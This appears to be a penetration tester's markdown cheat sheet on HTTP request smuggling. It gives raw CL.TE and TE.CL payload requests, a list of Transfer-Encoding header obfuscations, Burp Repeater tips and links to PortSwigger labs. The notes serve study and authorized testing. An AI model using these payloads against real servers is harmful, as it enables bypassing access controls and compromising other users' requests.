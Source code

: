 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
# Request Smuggling
### References
* [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Request%20Smuggling/README.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Request%20Smuggling/README.md)

### References

* PortSwigger - Request Smuggling Tutorial -<br />[https://portswigger.net/web-security/request-smuggling](https://portswigger.net/web-security/request-smuggling)
* PortSwigger - Request Smuggling Reborn -<br />[https://portswigger.net/research/http-desync-attacks-request-smuggling-reborn](https://portswigger.net/research/http-desync-attacks-request-smuggling-reborn)
* A Pentester's Guide to HTTP Request Smuggling - Busra Demir - 2020, October 16 -<br />[https://blog.cobalt.io/a-pentesters-guide-to-http-request-smuggling-8b7bf0db1f0](https://blog.cobalt.io/a-pentesters-guide-to-http-request-smuggling-8b7bf0db1f0)
### Overview
* .


### Tools

* HTTP Request Smuggler / BApp Store -<br />[https://portswigger.net/bappstore/aaaa60ef945341e8a450217a54a11646](https://portswigger.net/bappstore/aaaa60ef945341e8a450217a54a11646)
* Smuggler -<br />[https://github.com/defparam/smuggler](https://github.com/defparam/smuggler)

* "CL.TE" (Content Length, Transfer Encoding)
	* Overview
		* Interferes with server processing of HTTP request sequence, involing 1+ users.
		* Vulnerabilities are often critical and allow an attacker to bypass controls, gain unauthorized access, and directly compromise other application users. 
	* Format
		* The front-end server uses the Content-Length header and the back-end server uses the Transfer-Encoding header.

				POST / HTTP/1.1
				Host: vulnerable-website.com
				Content-Length: 13
				Transfer-Encoding: chunked

				0

				SMUGGLED
		* Example

				POST / HTTP/1.1
				Host: domain.example.com
				Connection: keep-alive
				Content-Type: application/x-www-form-urlencoded
				Content-Length: 6
				Transfer-Encoding: chunked

				0

				G
		* Challenge
			* [https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te](https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te)

* TE.CL vulnerabilities
	* Overview
		* The front-end server uses the Transfer-Encoding header and the back-end server uses the Content-Length header. 
	* Format

			POST / HTTP/1.1
			Host: vulnerable-website.com
			Content-Length: 3
			Transfer-Encoding: chunked

			8
			SMUGGLED
			0
	* Example

			POST / HTTP/1.1
			Host: domain.example.com
			User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.86
			Content-Length: 4
			Connection: close
			Content-Type: application/x-www-form-urlencoded
			Accept-Encoding: gzip, deflate

			5c
			GPOST / HTTP/1.1
			Content-Type: application/x-www-form-urlencoded
			Content-Length: 15
			x=1
			0
	* `:warning:`
		* To send this request using Burp Repeater, you will first need to go to the Repeater menu and ensure that the "Update Content-Length" option is unchecked.You need to include the trailing sequence \r\n\r\n following the final 0.
	* Challenge
		* [https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl]
	* TE.TE behavior: obfuscating the TE header
	* The front-end and back-end servers both support the Transfer-Encoding header, but one of the servers can be induced not to process it by obfuscating the header in some way.

			Transfer-Encoding: xchunked
			Transfer-Encoding : chunked
			Transfer-Encoding: chunked
			Transfer-Encoding: x
			Transfer-Encoding:[tab]chunked
			[space]Transfer-Encoding: chunked
			X: X[\n]Transfer-Encoding: chunked
			Transfer-Encoding
			: chunked
	* Challenge
		* [https://portswigger.net/web-security/request-smuggling/lab-ofuscating-te-header](https://portswigger.net/web-security/request-smuggling/lab-ofuscating-te-header)



